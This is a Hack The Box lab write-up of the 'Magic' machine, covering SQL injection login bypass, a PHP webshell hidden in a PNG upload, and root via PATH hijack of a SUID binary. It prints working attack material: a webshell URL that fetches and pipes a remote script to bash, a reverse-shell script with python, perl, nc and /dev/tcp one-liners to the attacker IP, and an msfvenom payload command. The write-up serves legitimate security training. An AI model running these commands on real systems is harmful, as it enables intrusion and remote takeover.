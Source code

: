 ```yaml
---
layout: single
title: Magic - Hack The Box
excerpt: "Magic starts with a classic PHP insecure upload vulnerability that let us place a webshell on the target host and then we exploit a subtle webserver misconfiguration to execute the webshell (even though the file name doesn't end with a .php extension). Once we land a shell, we escalate to another user with credentials found in MySQL and priv esc to root by exploiting a path hijack vulnerability in a SUID binary."
date: 2020-08-22
classes: wide
header:
  teaser: /assets/images/htb-writeup-magic/magic_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - sqli
  - upload
  - php
  - mysql
  - port forward
  - suid
  - path hijack
---
```


![](/assets/images/htb-writeup-magic/magic_logo.png)

Magic starts with a classic PHP insecure upload vulnerability that let us place a webshell on the target host and then we exploit a subtle webserver misconfiguration to execute the webshell (even though the file name doesn't end with a .php extension). Once we land a shell, we escalate to another user with credentials found in MySQL and priv esc to root by exploiting a path hijack vulnerability in a SUID binary.

## Summary

- Bypass the login page with a simple SQL injection
- Upload a PHP webshell after bypassing the file type and extension restriction
- Find DB credentials, then find the password for user theseus in the MySQL database
- Privesc by hijacking the PATH of a SUID binary

## Portscan

![](/assets/images/htb-writeup-magic/nmap.png)

## Website and initial shell

The website is just an image gallery with a link to upload new images at the bottom.

![](/assets/images/htb-writeup-magic/website1.png)

The upload page is protected by a login form for which we don't have valid credentials.

![](/assets/images/htb-writeup-magic/login.png)

We can try some default credentials like `admin / admin` on the login page but they don't work. Next we'll try a very simple SQL injection like `' or '1'='1` in the password field. This makes the password condition return True and we're able to pass the authentication check.

![](/assets/images/htb-writeup-magic/upload.png)

The application filters out what we can upload so we're not able to upload a PHP webshell with the .php extension.

![](/assets/images/htb-writeup-magic/upload1.png)

The application also checks the content of the file so even if we rename the file to a valid image extension it fails the upload check.

![](/assets/images/htb-writeup-magic/upload3.png)

By using a valid PNG image and inserting PHP code in the middle of the file we can pass the magic bytes check and the application will think it's a valid image.

![](/assets/images/htb-writeup-magic/upload4.png)

To bypass the extension check, we can append `.png` and it will still execute the file as PHP code when we send the GET request to `/images/uploads/snow.php.png`. This happens because of a subtle misconfiguration in the htaccess configuration file. The regular expression only checks if the `.php` string is present in the filename, not that the file name actually ends with `.php`.

```
<FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
<Files ~ "\.(sh|sql)">
   order deny,allow
   deny from all
```

Now that we have uploaded the webshell we have remote code execution:

![](/assets/images/htb-writeup-magic/rce.png)

With the PHP webshell, I can fetch a bash script from my box and get a reverse shell through Perl:

`http://magic.htb/images/uploads/snow.php.png?c=wget%20-O%20-%20http://10.10.14.35/shell.sh%20|%20bash`

The bash script will try various methods to get a reverse shell back to us:

```bash
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.35",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi

if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.14.35";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi

if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 443 >/tmp/f
        exit;
fi

if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.14.35/443 0>&1
        exit;
fi
```

![](/assets/images/htb-writeup-magic/rce2.png)

## Privesc to user theseus

In the web application directory `/var/www/Magic`, we find a PHP script `db.php5` that contains the database configuration file for the web application with the mysql username, password and database name.

```php
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

The mysql CLI client isn't installed on the machine so we'll have to do port forwarding to reach port 3306 listening on localhost. There's many ways to do this, here I'll use a meterpreter shell to port forward 3306.

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.35 LPORT=5555`

![](/assets/images/htb-writeup-magic/met1.png)

![](/assets/images/htb-writeup-magic/met2.png)

We can now log in to MySQL and we find another password in the **login** table.

![](/assets/images/htb-writeup-magic/mysql.png)

We can use the `Th3s3usW4sK1ng` to su to user `theseus`:

![](/assets/images/htb-writeup-magic/user.png)

## Privesc to root

Looking at SUID files, `/bin/sysinfo` stands out because it's not a standard Linux binary.

![](/assets/images/htb-writeup-magic/sysinfo.png)

The program just seems to be running a bunch of standard Linux programs like `free`.

![](/assets/images/htb-writeup-magic/sysinfo2.png)

By using `ltrace`, we can confirm this and see that the program uses the `popen` function to execute programs:

![](/assets/images/htb-writeup-magic/sysinfo3.png)

The program is vulnerable because we control the PATH and the program doesn't use the absolute path to execute the programs so we can execute anything we want as root. To get root I'll just create a script that sets the SUID bit on  `/bin/bash`, name it `free` and call `/bin/sysinfo` after setting the path to my current directory so it doesn't execute the real `free` program but my own script.

![](/assets/images/htb-writeup-magic/root.png)